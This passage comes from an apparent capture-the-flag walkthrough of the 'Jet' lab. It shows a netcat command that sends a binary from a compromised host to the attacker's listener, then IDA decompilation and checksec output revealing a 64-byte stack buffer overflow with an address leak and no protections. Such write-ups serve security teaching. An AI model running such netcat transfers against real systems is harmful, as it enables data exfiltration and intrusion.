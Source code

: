   

To exploit it we first need to parse it locally, so we will download it, we can do it easily using `netcat`to send and receive it

```
www-data@jet:~$ netcat 10.10.14.10 4444 < /home/leak  
www-data@jet:~$
```

  

```
❯ netcat -lvnp 4444 > leak
Listening on 0.0.0.0 4444
Connection received on 10.13.37.10  
```

  

We can start by analyzing the binary with `ida`, we can see the function`main`

[

![](https://xchg2pwn.github.io/fortresses/jet/25.png)





It starts by defining a variable `string`with a `64`byte buffer, then prints a message and the `dirección`where it starts `string`, and receives the input with`fgets`

```
int __fastcall main(int argc, const char **argv, const char **envp)  
{
  char string[64]; // [rsp+0h] [rbp-40h] BYREF

  _init(argc, argv, envp);
  printf("Oops, I'm leaking! %p\n", string);
  puts(aPwnMe);
  printf("> ");
  fgets(string, 512, stdin);
  return 0;
}
```

  

The function `fgets`is vulnerable to `Buffer Overflow`also shows us the address of the input, and `checksec`we can also see that the binary does not have`protecciones`

```
❯ checksec leak
[*] '/home/kali/leak'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)  
    RWX:      Has RWX segments
```
